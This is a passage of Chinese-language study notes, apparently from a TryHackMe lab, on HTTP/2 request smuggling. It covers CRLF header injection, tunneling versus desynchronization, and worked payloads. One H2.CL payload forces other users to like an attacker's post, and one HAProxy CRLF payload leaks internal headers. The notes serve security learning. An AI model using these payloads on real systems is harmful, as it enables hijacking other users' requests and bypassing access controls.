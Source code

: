     User-Agent: Mozilla/5.0
    Host: tryhackme.com
    Foo: bar                        # 原始头部
    Content-Length: 0               # 被注入的头部，使后端认为第一个请求无正文
                                    # 被注入的空行
    GET /other HTTP/1.1             # 被走私的请求
    X: x
    ```
*   **注意:** 注入点不限于头部值，也可能在路径或其他可控字段，取决于代理的具体实现。

## 请求隧道与失步 (Request Tunneling vs. Desynchronization)

*   **失步 (Desynchronization):** 如 H2.CL 和 H2.TE 示例，后端连接被污染，导致攻击者可以影响**其他用户**的请求。通常发生在后端服务器重用单个 TCP 连接处理多个用户请求的场景。
*   **请求隧道 (Request Tunneling):** 当每个用户有其独立的后端连接时，攻击者无法直接影响其他用户。但攻击者仍然可以向**自己的后端连接**走私请求。这种场景通常用于：
    *   绕过前端代理的访问控制限制。
    *   探测或泄露内部网络信息或代理添加的内部头部。
    *   进行 Web 缓存投毒。

## 利用场景与示例 (Exploitation Scenarios & Examples)

### 场景1: H2.CL 干扰其他用户 (THM 示例 - 强制点赞)

*   **漏洞:** 旧版 Varnish 代理，H2.CL 漏洞，后端共享连接。
*   **目标:** 强制其他用户喜欢攻击者的帖子。
*   **Payload (H2 请求):**
    ```
    :method POST
    :path /
    :scheme https
    :authority <target_ip>:<port>
    user-agent Mozilla/5.0
    content-length 0
    GET /post/like/<attacker_post_id> HTTP/1.1\r\n # 走私点赞请求
    X: f                                          # 任意填充，消耗下一个请求的请求行
    ```
*   **原理:**
    1.  前端代理看到 H2 POST 请求，降级后 `Content-Length: 0` 使后端认为第一个请求无正文。
    2.  走私的 `GET /post/like/...` 请求不完整，等待数据。
    3.  当受害者用户发送请求 (如 `GET / HTTP/1.1`) 时，其请求行 `GET / HTTP/1.1` 会被附加到 `X: f` 之后，形成 `X: fGET / HTTP/1.1`。
    4.  后端实际处理的是 `GET /post/like/<attacker_post_id> HTTP/1.1`，但使用的是受害者的 Cookie (因为受害者的头部被附加在了后面)。
*   **工具:** Burp Suite Repeater (确保取消勾选 "Update Content-Length"，并确认发送的是 HTTP/2 请求)。

### 场景2: 请求隧道 - 泄露内部头部 (THM 示例 - HAProxy CRLF)

*   **漏洞:** 旧版 HAProxy (CVE-2019-19330)，允许通过 CRLF 注入进行请求走私。后端应用程序 `/hello` 反射 `q` POST 参数。
*   **目标:** 泄露代理添加到后端请求中的内部头部 (如 `X-Internal-*`)。
*   **Payload (H2 请求，通过 `Foo` 头部注入):**
    ```
    :method POST
    :path /hello
    :scheme https
    :authority <target_ip>:<port>
    user-agent Mozilla Firefox
    Foo bar\r\n                                    # CRLF 注入点
        Content-Length: 0\r\n                      # 使第一个POST请求无正文
        Host: <target_ip>:<port>\r\n               # 为第一个请求提供Host
        \r\n
        POST /hello HTTP/1.1\r\n                   # 走私的第二个POST请求
        Content-Length: 300\r\n                    # 足够大的长度以捕获内部头部